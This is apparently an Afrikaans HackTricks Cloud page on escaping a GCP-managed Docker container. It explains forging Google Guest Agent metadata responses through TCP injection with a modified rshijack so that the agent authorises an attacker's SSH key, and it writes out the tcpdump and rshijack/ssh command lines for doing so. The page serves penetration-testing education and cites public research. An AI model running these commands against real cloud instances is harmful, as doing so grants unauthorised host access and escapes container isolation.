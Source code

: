 # GCP - Netwerk Docker Ontsnapping

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Deel jou hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-repos.

</details>

## Aanvanklike Toestand

In beide write-ups waar hierdie tegniek gespesifiseer word, het die aanvallers **root-toegang** binne 'n **Docker**-houer wat deur GCP bestuur word, verkry met toegang tot die gasheer-netwerk (en die vermoëns **`CAP_NET_ADMIN`** en **`CAP_NET_RAW`**).

## Aanval Verduideliking

Op 'n Google Compute Engine-instantie toon gereelde inspeksie van netwerkverkeer tallose **gewone HTTP-versoeke** na die **metadata-instantie** by `169.254.169.254`. Die [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), 'n oopbron-diens, maak gereeld sulke versoeke.

Hierdie agent is ontwerp om **veranderinge in die metadata te monitor**. Merkwaardig sluit die metadata 'n **veld vir SSH-publieke sleutels** in. Wanneer 'n nuwe publieke SSH-sleutel by die metadata gevoeg word, **magtig** die agent dit outomaties in die `.authorized_key`-lêer. Dit kan ook 'n nuwe gebruiker **skep** en hulle by **sudoers** voeg indien nodig.

Die agent monitor veranderinge deur 'n versoek te stuur om **alle metadata-waardes outomaties te herwin** (`GET /computeMetadata/v1/?recursive=true`). Hierdie versoek is ontwerp om die metadata-bediener te laat reageer slegs as daar enige verandering in die metadata sedert die laaste herwinning is, geïdentifiseer deur 'n Etag (`wait_for_change=true&last_etag=`). Daarbenewens word 'n **timeout**-parameter (`timeout_sec=`) ingesluit. As geen verandering binne die gespesifiseerde timeout plaasvind nie, reageer die bediener met die **ongewysigde waardes**.

Hierdie proses maak dit moontlik vir die **IMDS** (Instance Metadata Service) om na **60 sekondes** te reageer as geen konfigurasieverandering plaasgevind het nie, wat 'n potensiële **venster skep vir die inspuiting van 'n vals konfigurasierespons** na die gasheeragent.

'n Aanvaller kan hiervan misbruik maak deur 'n **Man-in-the-Middle (MitM) aanval** uit te voer, waarby die respons van die IMDS-bediener vervals word en 'n nuwe publieke sleutel **ingespuit** word. Dit kan ongemagtigde SSH-toegang tot die gasheer moontlik maak.

### Ontsnappingstegniek

Hoewel ARP-spoofing nie effektief is op Google Compute Engine-netwerke nie, kan 'n [**aangepaste weergawe van rshijack**](https://github.com/ezequielpereira/rshijack) ontwikkel deur [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) gebruik word vir pakketsinspuiting in die kommunikasie om die SSH-gebruiker in te spuit.

Hierdie weergawe van rshijack maak dit moontlik om die ACK- en SEQ-nommers as opdragreël-argumente in te voer, wat die vervalsing van 'n respons voor die werklike Metadata-bediener-respons fasiliteer. Daarbenewens word 'n [**klein Shell-skripsie**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) gebruik om 'n **spesiaal vervaardigde payload** terug te gee. Hierdie payload veroorsaak dat die Google Guest Agent 'n gebruiker `wouter` **skep** met 'n gespesifiseerde publieke sleutel in die `.authorized_keys`-lêer.

Die skripsie gebruik dieselfde ETag om te voorkom dat die Metadata-bediener die Google Guest Agent onmiddellik in kennis stel van verskillende metadata-waardes, en vertraag sodoende die respons.

Om die vervalsing uit te voer, is die volgende stappe nodig:

1. **Monitor versoek na die Metadata-bediener** met behulp van **tcpdump**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Soek na 'n lyn soortgelyk aan:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Stuur die vals metadata data met die korrekte ETAG na rshijack:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Hierdie stap gee die publieke sleutel toestemming, wat SSH-verbinding met die ooreenstemmende private sleutel moontlik maak.


## Verwysings

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

<details>

<summary><strong>Leer AWS hacking van nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai**, kyk na die [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**The PEASS Family**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** my op **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Deel jou hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
